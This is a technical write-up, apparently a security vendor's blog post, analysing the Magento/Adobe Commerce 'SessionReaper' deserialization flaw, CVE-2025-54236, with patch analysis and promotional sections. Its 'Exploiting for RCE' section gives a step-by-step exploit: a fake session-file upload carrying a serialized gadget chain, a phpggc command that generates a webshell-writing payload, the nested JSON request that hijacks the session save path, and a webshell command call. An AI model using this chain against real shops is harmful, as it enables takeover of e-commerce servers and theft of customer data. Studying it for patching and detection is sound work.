

## Table of Contents
1. [Executive Summary](#executive-summary)
2. [Background: Magento's Web API Framework](#background-magentos-web-api-framework)
3. [The Vulnerable Endpoint](#the-vulnerable-endpoint)
4. [Request Processing Flow](#request-processing-flow)
5. [Understanding the Deserialization Process](#understanding-the-deserialization-process)
6. [The Exploitation Chain](#the-exploitation-chain)
7. [Exploiting for RCE](#exploiting-for-rce)
8. [The Patch Analysis](#the-patch-analysis)
9. [Affected Systems](#affected-systems)
10. [References](#references)

## Executive Summary

CVE-2025-54236, dubbed "SessionReaper," is a critical remote code execution vulnerability in Magento/Adobe Commerce that exploits nested object deserialization in the Web API framework. This vulnerability allows unauthenticated attackers to achieve RCE on instances using file-based session storage by manipulating how the framework instantiates objects from JSON input.

**Affected Versions:** Magento(now called Adobe Commerce versions) 2.4.9-alpha2, 2.4.8-p2, 2.4.7-p7, 2.4.6-p12, 2.4.5-p14, 2.4.4-p15 and earlier
**CVSS Score:** Critical  
**Brief:** Unauthenticated RCE

---

Vulnerabilities like CVE-2025-54236 and more demonstrate the sophisticated attack vectors that modern enterprises face. As application security threats continue to evolve, organizations need comprehensive protection against CVEs, OWASP vulnerabilities, and emerging attack patterns. [**Kage.ai**](https://kage.axilock.ai/) provides enterprise-grade security solutions designed to safeguard your applications against these critical vulnerabilities before they can be exploited.

---

## Background: Magento's Web API Framework

Magento's Web API framework provides a sophisticated mechanism for exposing PHP methods as REST/SOAP endpoints. The framework automatically:

1. Maps HTTP requests to PHP method calls
2. Deserializes JSON/XML into PHP objects
3. Validates and processes the input
4. Returns serialized responses

Here's where things get interesting: the vulnerability lies in step 2 - the deserialization process. The framework tries to be helpful by automatically converting your JSON into the exact PHP objects that the target method expects. But as we'll see, this "helpfulness" becomes a security nightmare when combined with PHP's reflection capabilities.

## The Vulnerable Endpoint

Let's start with the endpoint that makes this all possible:

```http
PUT /rest/default/V1/guest-carts/{cartId}/order
Content-Type: application/json

{
  "paymentMethod": {
    ...
  }
}
```

This endpoint is defined in `webapi.xml`:

```xml
<route url="/V1/guest-carts/:cartId/order" method="PUT">
    <service class="Magento\Quote\Api\GuestCartManagementInterface" method="placeOrder"/>
    <resources>
        <resource ref="anonymous" />
    </resources>
</route>
```

Notice three critical things here:
- **No authentication required** (`ref="anonymous"`) - anyone can hit this endpoint
- It accepts a `paymentMethod` parameter in the request body
- It calls `GuestCartManagementInterface::placeOrder()` behind the scenes

This is our entry point. Now let's follow the request through Magento's internals to see where the vulnerability emerges.

## Request Processing Flow

When you send an HTTP request to Magento's REST API, it goes through several layers before reaching your target method. Understanding this flow is key to grasping how the exploit works:

```
HTTP Request
    ↓
1. Magento Bootstrap (pub/index.php)
    ↓
2. Rest Controller (Magento\Webapi\Controller\Rest)
    ↓
3. Request Processor (SynchronousRequestProcessor)
    ↓
4. Input Params Resolver (InputParamsResolver)
    ↓
5. ServiceInputProcessor.process() ← THE VULNERABILITY LIVES HERE
```

Let's walk through each step to see how our malicious JSON payload gets transformed into dangerous PHP objects.

### Step-by-Step Breakdown

**Step 1: HTTP Request Arrives**

Nothing special here - just a standard HTTP request hitting the server:

```http
PUT /rest/default/V1/guest-carts/abc123/order
Content-Type: application/json

{"paymentMethod": {"paymentData": {...}}}
```

**Step 2: Rest Controller Receives Request**

The Rest Controller acts as a traffic cop, routing the request to the right processor:

File: `app/code/Magento/Webapi/Controller/Rest.php`

```php
public function dispatch($request) {
    // Figure out which processor should handle this request
    $processor = $this->requestProcessorPool->getProcessor($this->_request);
    
    // Hand it off to the processor
    $processor->process($this->_request);
}
```

**Step 3: SynchronousRequestProcessor Handles It**

This is where the magic starts. The processor needs to convert our JSON into the proper PHP objects that the target method expects:

File: `app/code/Magento/Webapi/Controller/Rest/SynchronousRequestProcessor.php`

```php
public function process($request) {
    // THIS IS WHERE DESERIALIZATION HAPPENS
    // Our JSON gets converted to PHP objects here
    $inputParams = $this->inputParamsResolver->resolve();
    
    // Get service info from webapi.xml
    $route = $this->inputParamsResolver->getRoute();
    $serviceClass = $route->getServiceClass();      // GuestCartManagementInterface
    $serviceMethod = $route->getServiceMethod();    // placeOrder
    
    // Get the service and call the method with our converted parameters
    $service = $this->objectManager->get($serviceClass);
    $result = call_user_func_array([$service, $serviceMethod], $inputParams);
}
```

**Step 4: InputParamsResolver Calls ServiceInputProcessor**

The resolver delegates the actual conversion work to ServiceInputProcessor:

File: `app/code/Magento/Webapi/Controller/Rest/InputParamsResolver.php`

```php
public function resolve() {
    $route = $this->getRoute();
    
    // THIS CALLS ServiceInputProcessor - where the vulnerability is!
    return $this->serviceInputProcessor->process(
        $route->getServiceClass(),      // "GuestCartManagementInterface"
        $route->getServiceMethod(),     // "placeOrder"
        $this->getInputData()           // {"paymentMethod": {...}}
    );
}
```

**Step 5: ServiceInputProcessor - Where the Vulnerability Lives**

Now we're at the heart of the vulnerability. This is where Magento tries to be smart about converting JSON to PHP objects:

File: `lib/internal/Magento/Framework/Webapi/ServiceInputProcessor.php`

```php
public function process($serviceClassName, $serviceMethodName, array $inputArray) {
    // Look at the method signature of:
    // placeOrder($cartId, ?PaymentInterface $paymentMethod = null)
    
    $inputData = [];
    foreach ($this->methodsMap->getMethodParams($serviceClassName, $serviceMethodName) as $param) {
        $paramName = $param['name'];  // "paymentMethod"
        
        if (isset($inputArray[$paramName])) {
            // Convert JSON to the expected type
            // This is where the recursive instantiation begins!
            $inputData[] = $this->convertValue(
                $inputArray[$paramName],  // {"paymentData": {...}}
                $param['type']            // "PaymentInterface"
            );
        }
    }
    return $inputData;
}

public function convertValue($data, $type) {
    // $data = {"paymentData": {...}}
    // $type = "PaymentInterface"
    
    // ... some type checking ...
    
    return $this->processComplexTypes($data, $type);
}

private function processComplexTypes($data, $type) {
    // $data = {"paymentData": {...}}
    // $type = "PaymentInterface"

    $isArrayType = $this->typeProcessor->isArrayType($type);

    if (!$isArrayType) {
        // THIS IS WHERE DESERIALIZATION HAPPENS
        // JSON gets converted to a PHP object instance
        return $this->_createFromArray($type, $data);
    }
    // ... array handling ...
}
```

You might be thinking: "Okay, so it creates objects from JSON. What's the big deal?" 

Well, here's where it gets dangerous. The vulnerability chain begins with `convertValue()` → `_createFromArray()` → `getConstructorData()`. Let's see what happens in those methods.

## Understanding the Deserialization Process

Now that we've seen how the request flows through Magento, let's zoom in on the deserialization process itself. This is where the framework's "helpful" behavior becomes exploitable.

### Step 1: Method Signature Analysis

The interface defines what the method expects:

```php
// Magento\Quote\Api\GuestCartManagementInterface
public function placeOrder($cartId, ?PaymentInterface $paymentMethod = null);
```

The framework sees that the second parameter should be a `PaymentInterface` instance. So it needs to convert our JSON body object into a proper PHP object.

### Step 2: Type Resolution

Magento resolves the interface to its concrete implementation:

```
PaymentInterface → Magento\Quote\Model\Quote\Payment.php
```
this Payment.php file implements the PaymentInterface
So far, so good. But here's where things start to go sideways...

### Step 3: Object Instantiation via ServiceInputProcessor

The `ServiceInputProcessor` class handles deserialization. Here's the critical code that makes the magic (and the vulnerability) happen:

```php
// ServiceInputProcessor::_createFromArray()
protected function _createFromArray($className, $data)
{
    // Step A: Get constructor parameters
    // This is where the vulnerability really starts!
    $constructorArgs = $this->getConstructorData($className, $data);
    
    // Step B: Create object with constructor args
    $object = $this->objectManager->create($className, $constructorArgs);
    
    // Step C: Use setter methods for remaining properties
    foreach ($data as $propertyName => $value) {
        if (isset($constructorArgs[$propertyName])) {
            continue;  // Already set via constructor
        }
        $setterName = 'set' . ucfirst($propertyName);
        $object->{$setterName}($value);
    }
    
    return $object;
}
```

This looks innocent enough, right? Create an object, pass some constructor arguments, set some properties. But wait until you see what `getConstructorData()` does...

### Step 4: The Vulnerability - Constructor Parameter Mapping

Here's where everything falls apart. This is the code that enables the entire exploitation chain:

```php
private function getConstructorData(string $className, array $data): array
{
    $constructor = $class->getMethod('__construct');
    $parameters = $constructor->getParameters();
    
    $res = [];
    foreach ($parameters as $parameter) {
        $paramName = $parameter->getName();
        
        // VULNERABILITY: Checks if JSON has a key matching parameter name
        // If it does, it RECURSIVELY instantiates that type!
        if (isset($data[$paramName])) {
            $parameterType = $this->typeProcessor->getParamType($parameter);
            
            // RECURSIVELY instantiates the type!
            // This is the key: it calls convertValue again, which can trigger
            // another _createFromArray, which calls getConstructorData again...
            $res[$paramName] = $this->convertValue(
                $data[$paramName],
                $parameterType
            );
        }
    }
    
    return $res;
}
```

**Here's the critical insight:** JSON keys are directly mapped to constructor parameter names, and the framework recursively instantiates whatever types those parameters expect!

This means if you control the JSON, you can control:
1. Which classes get instantiated
2. What gets passed to their constructors
3. How deeply nested the instantiation chain goes

Let's see how we can weaponize this.

## The Exploitation Chain

Now comes the fun part - chaining together classes to achieve something malicious. This requires some creativity and deep knowledge of Magento's codebase.

### Chain Discovery

The `Payment` class inherits from `Magento\Payment\Model\Info`, which has this constructor:

```php
public function __construct(
    \Magento\Framework\Model\Context $context,
    \Magento\Framework\Registry $registry,
    \Magento\Framework\Api\ExtensionAttributesFactory $extensionFactory,
    \Magento\Framework\Api\AttributeValueFactory $customAttributeFactory,
    \Magento\Payment\Helper\Data $paymentData,  // ← This is our entry point!
    \Magento\Framework\Encryption\EncryptorInterface $encryptor,
    // ... more parameters ...
)
```

Notice the `$paymentData` parameter of type `\Magento\Payment\Helper\Data`. This is exploitable because we can control what gets passed to it via our JSON!

### Exploitation Flow

Here's the malicious JSON payload that triggers the chain:

```json
{
  "paymentMethod": {
    "paymentData": {              // Triggers Payment\Helper\Data instantiation
      "context": {                // Triggers App\Helper\Context instantiation
        "urlBuilder": {           // Triggers UrlInterface implementation
          "session": {            // Triggers SessionManager instantiation
            "sessionConfig": {    // THE PAYLOAD: Controls session.save_path
              "savePath": "/path/to/malicious/sessions"
            }
          }
        }
      }
    }
  }
}
```

Let's walk through what happens when Magento processes this JSON:

**Step 1: Payment Object Creation**

The framework sees the JSON key `"paymentData"` and thinks: "Ah, the Payment constructor has a parameter named `$paymentData` of type `Magento\Payment\Helper\Data`. Let me instantiate that!"

So it recursively calls `convertValue()` to create a `Data` object.

**Step 2: Data Object Creation**

Now we're instantiating `Magento\Payment\Helper\Data`:

```php
// Magento\Payment\Helper\Data::__construct()
public function __construct(
    Context $context,  // ← Matches JSON key "context"
    // ... other parameters ...
)
```

The framework sees the JSON key `"context"` and matches it to the `$context` parameter of type `Magento\Framework\App\Helper\Context`. 

Time to instantiate that too!

**Step 3: Context Object Creation**

```php
// Magento\Framework\App\Helper\Context::__construct()
public function __construct(
    // ... some parameters ...
    \Magento\Framework\UrlInterface $urlBuilder,  // ← Matches "urlBuilder"
    // ... more parameters ...
)
```

The chain continues... each JSON key triggers another instantiation.

**Step 4: Session Configuration Manipulation**

Eventually, we reach `Magento\Framework\Session\Config`:

```php
public function setSavePath($savePath)
{
    // This sets the PHP session.save_path configuration!
    $this->setOption('session.save_path', $savePath);
    return $this;
}
```

Now we're getting somewhere. We can control where PHP looks for session files!

**Step 5: Session Manager Exploitation**

When `SessionManager` is instantiated with our malicious config:

```php
public function __construct(..., ConfigInterface $sessionConfig, ...)
{
    $this->sessionConfig = $sessionConfig;
    $this->start();  // This is called during construction!
}

public function start()
{
    $this->initIniOptions();  // Sets session.save_path from our config
    session_start();          // Reads from attacker-controlled path!
}

private function initIniOptions()
{
    foreach ($this->sessionConfig->getOptions() as $option => $value) {
        ini_set($option, $value);  // Sets session.save_path to our malicious path!
    }
}
```

**Let's recap what we've achieved so far:**

1. ✅ We sent JSON to an unauthenticated endpoint
2. ✅ The framework recursively instantiated objects based on our JSON structure
3. ✅ We controlled the `session.save_path` configuration
4. ✅ PHP will now read session files from our controlled directory

But controlling where sessions are read from isn't enough. We need to actually get malicious code into that location. That's where the next phase comes in.

## Exploiting for RCE

Now that we understand how to control the session path, let's weaponize it for remote code execution. This requires a three-phase attack.

### Phase 1: File Upload - Planting the Payload

Magento has an unauthenticated file upload endpoint that we can abuse:

```http
POST /customer/address_file/upload
Content-Type: multipart/form-data

form_key=<any_value>
custom_attributes[country_id]=<serialized_php_gadget_chain>
filename="sess_<session_id>"
```

This uploads our file to: `pub/media/customer_address/s/e/sess_<session_id>`

**What's in the file?** A serialized PHP gadget chain. We can use phpggc to generate one:

```bash
# Generate a Guzzle gadget chain that writes a webshell
phpggc -se -a Guzzle/FW1 /var/www/html/magento2/pub/shell.php /tmp/payload.php
```

This creates a serialized object that, when unserialized, will write our webshell to the web root.

### Phase 2: Trigger Deserialization - Activating the Payload

Now we send our malicious JSON to trigger the vulnerability:

```http
PUT /rest/default/V1/guest-carts/abc/order
Cookie: PHPSESSID=<session_id>

{
  "paymentMethod": {
    "paymentData": {
      "context": {
        "urlBuilder": {
          "session": {
            "sessionConfig": {
              "savePath": "media/customer_address/s/e"
            }
          }
        }
      }
    }
  }
}
```

Here's what happens behind the scenes:

1. Our nested JSON triggers the recursive instantiation chain
2. `SessionConfig::setSavePath()` sets `session.save_path` to our controlled directory
3. `SessionManager::start()` calls `session_start()`
4. PHP reads `sess_<session_id>` from our controlled directory
5. PHP unserializes the file contents (our gadget chain!)
6. The gadget chain executes, writing our webshell

### Phase 3: Code Execution - Game Over

Finally, we access our newly created webshell:

```http
POST /pub/shell.php
cmd=id
```

And we have remote code execution! 🎯

**The complete attack flow visualized:**



## The Patch Analysis

Adobe's patch restricts type instantiation in `ServiceInputProcessor::getConstructorData()`:

```php
private function getConstructorData(string $className, array $data): array
{
    foreach ($parameters as $parameter) {
        if (isset($data[$parameter->getName()])) {
            $parameterType = $this->typeProcessor->getParamType($parameter);

            // NEW: Whitelist only safe types
            if (!($this->typeProcessor->isTypeSimple($parameterType)
                || preg_match('~\\\\?\w+\\\\\w+\\\\Api\\\\Data\\\\~', $parameterType) === 1
            )) {
                continue;  // Skip this parameter - don't instantiate it!
            }

            $res[$parameter->getName()] = $this->convertValue(...);
        }
    }
}
```

**Allowed types:**
- Simple types: `string`, `int`, `float`, `bool`
- API Data Objects: Classes matching `*\*\Api\Data\*`

**Blocked types:**
- `Magento\Payment\Helper\Data` ❌
- `Magento\Framework\App\Helper\Context` ❌
- `Magento\Framework\Session\Config` ❌
- All other helper/service classes ❌

This breaks the exploitation chain at the first step, preventing the recursive instantiation of dangerous classes.

## Affected Systems

- Magento Open Source < 2.4.8 (patched version)
- Adobe Commerce < corresponding patched version
- Estimated 130,000+ websites potentially vulnerable
- **Critical:** Only instances with file-based session storage are directly exploitable
- **Note:** Redis-backed instances may have alternative exploitation paths

## Protecting Your Enterprise Against Application Vulnerabilities

The complexity of vulnerabilities like CVE-2025-54236 underscores a critical challenge facing modern enterprises: application security threats are becoming increasingly sophisticated and difficult to detect. Traditional security measures often fall short when dealing with nested deserialization attacks, OWASP Top 10 vulnerabilities, and zero-day exploits that can compromise your entire infrastructure.

**[Kage.ai](https://kage.axilock.ai/)** provides comprehensive, enterprise-grade security solutions designed to protect your applications against these evolving threats. Our platform helps organizations:

- **Detect and prevent CVEs** before they can be exploited in your environment
- **Identify OWASP vulnerabilities** across your application stack
- **Monitor for emerging attack patterns** and zero-day threats
- **Maintain continuous security posture** with real-time threat intelligence
- **Ensure compliance** with industry security standards

Don't wait for the next critical vulnerability to impact your business. Visit **[kage.axilock.ai](https://kage.axilock.ai/)** to learn how we can help secure your enterprise applications.

---

## References

- [spacewasp Blog on CVE-2024-34102](https://github.com/spacewasp/public_docs/blob/main/CVE-2024-34102.md)
- [Assetnote Magento PoC on CVE-2024-34102](https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102)
